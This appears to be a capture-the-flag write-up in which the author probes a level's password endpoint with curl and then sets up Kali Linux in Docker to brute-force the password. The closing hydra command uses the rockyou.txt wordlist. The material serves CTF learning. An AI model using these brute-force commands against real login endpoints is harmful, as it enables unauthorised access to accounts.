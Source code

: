 ## Hacking the cracker

the route http://34.69.146.51:5000/level6/
returns to us:

{"error":"Invalid password"}

which obiously means that we need to send a password to the server.

I tried to send a password with curl via the following command:


```bash
curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
```

and the response was:

$ curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

which means it isnt a post request, so lets try a basic get request, with a password variable in the url:

```bash
http://34.69.146.51:5000/level6/?password=3
```
this does return invalid password

so we will start with a python script and bruteforce the password.


using hydra kali linux

basic flow for the kali linux docker

docker pull kalilinux/kali-rolling

docker run --network host -it kalilinux/kali-rolling /bin/bash

apt update

apt install hydra

hydra -h



 docker cp C:\Users\yaniv\ctf_challenge\excellenteam-ctf-yaniv242\level_6\rockyou.txt 4e749fdea52228eb9a206c6eaf230c1180614d4643f5663387032d3468c90155:/root/rockyou.txt

finaly the perfect command:
```bash
hydra -vV -l dummy -P rockyou.txt 34.69.146.51 http-get "/level6/?password=^PASS^:F=Invalid password" -s 5000
```